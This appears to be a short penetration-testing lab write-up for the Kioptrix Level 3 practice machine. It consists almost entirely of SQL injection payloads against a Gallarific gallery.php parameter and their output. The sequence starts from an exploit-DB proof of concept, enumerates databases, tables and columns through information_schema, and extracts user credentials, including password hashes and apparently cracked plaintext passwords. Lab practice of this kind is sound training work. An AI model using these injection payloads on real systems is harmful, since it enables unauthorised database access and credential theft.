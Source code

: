 PoC payload from exploitDB:

`www.site.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users--`

`kioptrix3.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users--`

```
The used SELECT statements have a different number of columnsCould not select category
```

PoC payload from exploitdb modified to extract the correct number of columns:

`www.kioptrix3.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users--`

`1:admin:n0t7t1k4`

`http://kioptrix3.com/gallery/gallery.php?id=null+union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--`

`information_schema,gallery,mysql`



http://kioptrix3.com/gallery/gallery.php?id=null+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables--

CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_s


union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.columns+where+table_schema+!=+'mysql'+AND+table_schema+!=+'information_schema'--+

union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.columns+where+table_schema+=+'gallery'--+

dev_accounts,dev_accounts,dev_accounts,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_comments,gallarific_galleries,gallarific_galleries,gallarific_galleries,gallarific_galleries,gallarific_galleries,gallarific_galler


http://kioptrix3.com/gallery/gallery.php?id=NULL+union+select+1,group_concat(distinct(table_name)),3,4,5,6+from+information_schema.columns+where+table_schema+!=+%27mysql%27+AND+table_schema+!=+%27information_schema%27--+

dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users

http://kioptrix3.com/gallery/gallery.php?id=NULL+union+select+1,group_concat(table_name,0x3a,column_name),3,4,5,6+from+information_schema.columns+where+table_name+=+%27gallarific_users%27+OR+table_name+=+%27dev_accounts%27--

dev_accounts:id,dev_accounts:username,dev_accounts:password,gallarific_users:userid,gallarific_users:username,gallarific_users:password,gallarific_users:usertype,gallarific_users:firstname,gallarific_users:lastname,gallarific_users:email,gallarific_users:datejoined,gallarific_users:website,gallarific_users:issuperuser,gallarific_users:phot

view-source:http://kioptrix3.com/gallery/gallery.php?id=NULL+union+select+1,group_concat(id,0x3a,username,0x3a,password),3,4,5,6+from+dev_accounts--+

1:dreg:0d3eccfb887aabd50f243b3f155c0f85,2:loneferret:5badcaf789d3d1d09794d8f021f40f0e

1:dreg:Mast3r
2:loneferret:starwars


